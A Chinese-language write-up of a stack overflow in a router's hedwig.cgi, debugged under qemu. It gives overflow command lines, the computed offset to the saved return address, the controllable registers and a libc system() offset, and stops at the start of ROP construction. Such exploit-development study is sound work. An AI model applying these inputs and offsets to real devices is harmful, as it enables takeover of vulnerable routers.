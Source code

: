 调试步骤：

1. 使用以下命令运行`cgi_run.sh`，此时qemu运行hedwig.cgi，并等待gdb连接到端口1234
``` 
sudo ./cgi_run.sh  'uid=1234'  `python  -c "print 'uid=1234&password='+'A'*0x600"`
```
2. gdb-multiarch调试hedwig.cgi，并在可疑地址`0x409680`处以及调用获取uid的地址`0x409648`处下断。

对比`0x409680`指令前后存放$ra的区域，可以看到该内存确实被覆盖了，而且在最后程序返回时也确实可以看到崩溃了。
但是阅读汇编代码后，发现后面在`0x4096b4`处以写的形式打开了`/var/tmp/temp.xml`文件，对固件目录进行检查时发现，`/var`目录是空的，不存在`/var/tmp/`目录。

由于我没有实体固件路由器，所以无法确定真实环境中是否有该目录，因此只能根据书中的描述来认为该环境中确实存在该目录，并在`/var`目录下创建了`/tmp`目录以尽可能的模拟真实环境。

继续阅读汇编代码，发现并不是只有`0x409680`处调用了`sprintf`函数，在`0x40997C`处也调用了该函数。

再回头去看一遍函数流程，可以得到再`0x409680`处调用了`sprintf`函数形成栈溢出，后续创建`/var/tmp/temp.xml`，如果创建失败的话，程序返回；如果创建成功，会继续执行且在`0x40997C`处再次调用`sprintf`函数再次形成栈溢出。

因此真实环境中，会形成两次栈溢出且栈的最后状态由第二次溢出也就是`0x40997C`处的栈溢出决定，所以一不小心就会造成误判。

漏洞利用的步骤为：

1. 确定缓冲区大小，控制偏移以实现对PC的劫持。
2. 编写代码，通过qemu虚拟机调试验证。
3. 确定攻击路径，构造ROP。
4. 构建利用攻击数据，编写exp。

首先是第一步，缓冲区大小判定，可以使用创建模式字符串去调试确认，但是我都是通过IDA静态分析确定的。在IDA中对缓冲区位置以及存储$ra的地址进行查看，根据公式得到偏移为：
```C
offset=saved_ra-buf_addr=-0x4-0x428=0x424
```
同时我们知道`sprintf`函数的函数声明是`sprintf(char *str, char *format, ...)`，找到对应的参数第二个参数format是`htdocs/webinc/fatlady.php\nprefix=%s/%s`，第二个参数是`/runtime/session`，第三个参数是我们可控的`cookie`，因此需要达到控制PC的输入长度为：
```C
offset=0x424-len("/htdocs/webinc/fatlady.php\nprefix=/runtime/session/")
offset=0x3f1
```

第二步，动态确认。在调试之前，首先要创建`/var/tmp/`目录，开始调试时在溢出地址`0x40997C`处以及返回地址`0x409A28`下断。使用命令
```C
sudo ./cgi_run.sh  'uid=1234'  `python  -c "print 'uid='+'A'*0x3f2+'B'*0x4"
```
来启动程序，并使用gdb-multiarch加载程序进行调试，可以看到在`sprintf`后存储$ra内存区域被覆盖为了0x42424242，即我们已成功控制PC，验证成功。

第三步，确定攻击路径，构造ROP。查看hedwig_main函数返回处的汇编指令，知道了溢出数据可导致$ra、$fp、$s7、$s6、$s5、$s4、$s3、$s2、$s1、$s0等寄存器可控。
```C
lw      $ra, 0x4E8+var_4($sp)
move    $v0, $s7
lw      $fp, 0x4E8+var_8($sp)
lw      $s7, 0x4E8+var_C($sp)
lw      $s6, 0x4E8+var_10($sp)
lw      $s5, 0x4E8+var_14($sp)
lw      $s4, 0x4E8+var_18($sp)
lw      $s3, 0x4E8+var_1C($sp)
lw      $s2, 0x4E8+var_20($sp)
lw      $s1, 0x4E8+var_24($sp)
lw      $s0, 0x4E8+var_28($sp)
jr      $ra
```
构造ROP首先是要找到`system`函数地址，将`libc.so.0`拖进`ida`并搜索函数`system`得到地址偏移为`0x53200`。
